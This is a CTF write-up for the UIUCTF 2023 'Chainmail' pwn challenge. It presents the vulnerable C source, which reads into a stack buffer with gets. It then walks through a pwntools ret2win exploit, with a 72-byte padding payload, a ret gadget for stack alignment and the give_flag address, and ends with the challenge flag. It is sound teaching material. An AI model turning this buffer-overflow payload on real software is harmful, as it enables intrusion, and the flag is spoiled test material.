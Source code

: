 # UIUCTF 2023

## Chainmail

> I've come up with a winning idea to make it big in the Prodigy and Hotmail scenes (or at least make your email widespread)!
>
>  Author: Emma
>
> [`chal.c`](chal.c)
> [`chal`](chal)
> [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
The challenge comes with three files. The program for testing purpose but also with the original code, so reversing is not needed. The code is very simple.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void give_flag() {
    FILE *f = fopen("/flag.txt", "r");
    if (f != NULL) {
        char c;
        while ((c = fgetc(f)) != EOF) {
            putchar(c);
        }
    }
    else {
        printf("Flag not found!\n");
    }
    fclose(f);
}

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char name[64];
    printf("Hello, welcome to the chain email generator! Please give the name of a recipient: ");
    gets(name);
    printf("Okay, here's your newly generated chainmail message!\n\nHello %s,\nHave you heard the news??? Send this email to 10 friends or else you'll have bad luck!\n\nYour friend,\nJim\n", name);
    return 0;
}
```

A name is read into a buffer, since `gets` is used this is vulnerable to a buffer overflow. Also a win function is given `give_flag`, so a typical ret2win setup. Checksec also confirms this as no canary is activated we can just write over anything until we rewrite the return address to point to `give_flag`.

```bash
$ checksec ./chal
[*] '/uiuc23/pwn/chainmail/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The offset to the ret address (from name buffer) can be found by using cycle patterns, I normally look what ghidra is giving me. The offset is visible in plain text in the decompiled code with the variable name.

The payload are then 72 bytes of random values to fill buffer right before the ret address on the stack plus the 64-bit address of `give_flag`. 

```python
from pwn import *

binary = context.binary = ELF("./chal", checksec=False)
context.log_level="debug"

if args.REMOTE:
    p = remote("chainmail.chal.uiuc.tf", 1337)
else:
    p = process(binary.path)

payload = b"A" * 72
payload = payload + p64(binary.sym.give_flag)

p.sendlineafter(b"recipient: ", payload)
p.interactive()
```

Since the script works perfectly on my local machine, but not remote this is typically an hint pointing at a [`stack alignment issue`](https://ropemporium.com/guide.html#Common%20pitfalls).

> Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

To find a fitting gadget we can use `ROPgadget`.

```bash
$ ROPgadget --binary ./chal --ropchain
Gadgets information
============================================================
0x000000000040118b : add bh, bh ; loopne 0x4011f5 ; nop ; ret
0x000000000040115c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x0000000000401336 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x0000000000401337 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x00000000004011fa : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040115e : add byte ptr [rax], al ; endbr64 ; ret
0x0000000000401338 : add byte ptr [rax], al ; leave ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x00000000004011fb : add byte ptr [rcx], al ; pop rbp ; ret
...
0x000000000040101a : ret
...
0x0000000000401340 : sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x0000000000401183 : test eax, eax ; je 0x401190 ; mov edi, 0x404068 ; jmp rax
0x00000000004011c5 : test eax, eax ; je 0x4011d0 ; mov edi, 0x404068 ; jmp rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax
```

There it is, on address 40101ah. The workig payload looks like this and gives the flag.

```
payload = b"A" * 72
payload = payload + p64(0x40101a)
payload = payload + p64(binary.sym.give_flag)
```

Flag `uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}`